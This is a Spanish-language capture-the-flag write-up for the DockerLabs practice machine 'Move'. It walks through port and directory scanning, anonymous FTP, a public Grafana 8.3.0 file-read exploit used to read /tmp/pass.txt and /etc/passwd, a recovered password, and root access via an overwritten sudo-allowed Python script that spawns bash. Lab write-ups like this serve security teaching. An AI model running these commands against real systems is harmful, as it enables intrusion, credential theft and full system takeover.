# 📘 Informe Técnico - Máquina: *Move*

* **Nivel:** Fácil
* **Propósito:** Práctica de análisis de servicios expuestos, reconocimiento de rutas sensibles y escalada de privilegios.
* **Objetivo:** Obtener acceso root a través de la explotación de una configuración sudo insegura.

---



## 🛠️ Despliegue de la Máquina

Iniciamos descargando el archivo comprimido desde DockerLabs. Posteriormente lo descomprimimos con el siguiente comando:

```bash
unzip move.zip
```

Luego desplegamos la máquina vulnerable con:

```bash
sudo bash auto_deploy.sh move.tar
```



Verificamos que el contenedor esté activo mediante un ping:

```bash
ping -c1 172.17.0.3
```



---

## 🔎 Reconocimiento

Realizamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```



Luego usamos `extractPorts` para filtrar los puertos abiertos y lanzamos un escaneo más detallado:

```bash
nmap -sCV -p80,22,21 172.17.0.3 -oG target.txt
```



### Resultados Destacados:

* **Puerto 80**: Servicio HTTP (servidor web Apache).
* **Puerto 22**: Servicio SSH activo.
* **Puerto 21**: Servicio FTP con acceso anónimo habilitado.

---

## 🌐 Análisis Web

Accedimos al sitio web [http://172.17.0.3/](http://172.17.0.3/) y se muestra la página por defecto de Apache2.



Realizamos un escaneo de directorios con `gobuster`:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```



Se descubrió el archivo **maintenance.html**, el cual revela una ruta interna:

```
/tmp/pass.txt
```



---

## 📁 Acceso al Servicio FTP

Accedemos al servicio FTP con el usuario `anonymous`. Al pedir contraseña, simplemente presionamos **Enter**.



Ejecutamos `ls -la` y navegamos hasta el directorio `mantenimiento`, donde encontramos un archivo llamado `database.kdbx`. Lo descargamos con:

```bash
get database.kdbx
```



---

## 📡 Detección de Servicios Adicionales

Explorando más puertos, descubrimos que el **puerto 3000** está abierto.


Accedemos a **[http://172.17.0.3:3000/login](http://172.17.0.3:3000/login)** y encontramos una instancia de **Grafana**. En la parte inferior izquierda se muestra la versión:

```
Grafana v8.3.0 (914fcedb7)
```



---

## 💥 Explotación de Grafana

Buscamos vulnerabilidades con `searchsploit`:

```bash
searchsploit Grafana 8.3.0
```

Identificamos el exploit:

```
Grafana 8.3.0 - LFI/RCE (Python) → multiple/webapps/50581.py
```

Lo descargamos y ejecutamos:

```bash
searchsploit -m multiple/webapps/50581.py
python3 50581.py -H http://172.17.0.3:3000
```

Usamos el exploit para leer `/tmp/pass.txt`, y obtenemos una contraseña:

```
t9sH76gpQ82UFeZ3GXZS
```



---

## 👤 Enumeración de Usuarios

Ejecutamos el comando `cat /etc/passwd` desde el exploit y encontramos un posible usuario válido:

```
freddy
```



---

## 🔐 Autenticación Válida y Escalada de Privilegios

Probamos las credenciales encontradas (`freddy:t9sH76gpQ82UFeZ3GXZS`) en el servicio FTP y accedemos exitosamente.

Dentro del directorio `/opt` encontramos el archivo `maintenance.py`, el cual descargamos con:

```bash
get maintenance.py
```

El archivo solo contenía:

```python
print("Server under beta testing")
```
Procedo a usar SSH si puedo hacer alguna escalada.



## 🔐 Explotacion del servicio SSH

Ya conectados como el usuario `freddy`, ejecutamos:

```bash
sudo -l
```

Se nos muestra la siguiente política de sudo:

```
(ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py
```

Esto indica que podemos ejecutar **ese script como root sin contraseña**.

---

## 🚀 Escalada Final a Root

Eliminamos el script original y creamos uno malicioso:

```bash
rm /opt/maintenance.py
echo 'import os; os.system("/bin/bash")' > /opt/maintenance.py
chmod +x /opt/maintenance.py
sudo /usr/bin/python3 /opt/maintenance.py
```

Esto nos otorga una **shell con privilegios root**.



---

## 📝 Nota Final

Es posible que existan otras formas de comprometer esta máquina, pero esta fue la ruta explotada a partir de la información descubierta.
En el sercio de SSH me ubique en el directorio /opt/


